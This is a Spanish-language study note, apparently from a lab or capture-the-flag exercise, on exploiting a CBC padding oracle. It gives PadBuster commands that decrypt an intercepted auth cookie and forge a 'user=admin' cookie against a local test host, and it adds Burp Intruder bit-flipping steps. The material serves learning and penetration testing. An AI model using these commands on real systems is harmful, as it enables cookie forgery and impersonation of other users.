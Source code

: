 
> 📦 Explotando vulnerabilidades de cifrado por bloques en CBC mode

---

## 🛠️ Herramienta utilizada: **PadBuster**

📦 Repositorio: [https://github.com/AonCyberLabs/PadBuster](https://github.com/AonCyberLabs/PadBuster)

---

## 📍 **Contexto:**

Tienes una cookie cifrada en modo **CBC (Cipher Block Chaining)** vulnerable a un **Padding Oracle**, lo que permite:

- 🔍 **Descifrar contenido** (como el nombre de usuario)
    
- ✍️ **Modificar contenido cifrado** (como cambiar `user=ken` por `user=admin`)
    

---

## 🧪 Paso 1: Extraer y descifrar la cookie 🕵️

### 🔐 Cookie interceptada:

ini

Copiar código

`auth=TOQOQrVsul9lV3YvSrk%2BtE%2BlhwSDNKgG`

### 🔎 Ejecutamos PadBuster:

bash

Copiar código

`padbuster http://192.168.0.33/index.php TOQOQrVsul9lV3YvSrk%2BtE%2BlhwSDNKgG 8 -cookies 'auth=TOQOQrVsul9lV3YvSrk%2BtE%2BlhwSDNKgG'`

📤 **Resultado:**

cpp

Copiar código

`[+] Decrypted value (ASCII): user=ken [+] Decrypted value (HEX): 757365723D6B656E0808080808080808 [+] Decrypted value (Base64): dXNlcj1rZW4ICAgICAgICA==`

✅ ¡Ya sabemos qué contiene la cookie!

---

## 🧪 Paso 2: Cifrar un nuevo valor → `user=admin` 👑

### 🔁 Usamos el mismo comando, pero con `-plaintext`:

bash

Copiar código

`padbuster http://192.168.0.33/index.php TOQOQrVsul9lV3YvSrk%2BtE%2BlhwSDNKgG 8 -cookies 'auth=TOQOQrVsul9lV3YvSrk%2BtE%2BlhwSDNKgG' -plaintext 'user=admin'`

📤 **Salida:**

pgsql

Copiar código

`[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA`

📌 Reemplaza la cookie original con este valor en tus requests:

ini

Copiar código

`auth=BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA`

---

## 🧪 Paso 3: 🧙‍♂️ Truco avanzado – _Bit Flipping con Intruder_

📌 Objetivo: Modificar el contenido de forma más sutil, **manipulando solo un bloque**

### 🚶‍♂️ Pasos:

1. Regístrate como usuario: `bdmin`
    
2. Intercepta la petición de autenticación con Burp Suite
    
3. Envía al **Intruder**
    
4. Selecciona ataque tipo **Sniper**
    
5. Usa payloads tipo **Bit Flipper**
    

🧠 _Al cambiar solo un byte o bloque, reduces el riesgo de romper el padding._

---

## 🧠 ¿Qué es un Padding Oracle?

> Es una vulnerabilidad en esquemas de cifrado como **AES-CBC** donde el servidor da respuestas distintas si el padding es válido o no, permitiendo:

- 🔓 Descifrado sin clave
    
- ✍️ Cifrado controlado
    
- 📤 Suplantación de usuarios
    

---

## 📚 Recursos útiles:

- 🔗 [PadBuster GitHub](https://github.com/AonCyberLabs/PadBuster)
    
- 📖 PortSwigger - Padding Oracle Attack

![[Pasted image 20250404103910.png]]

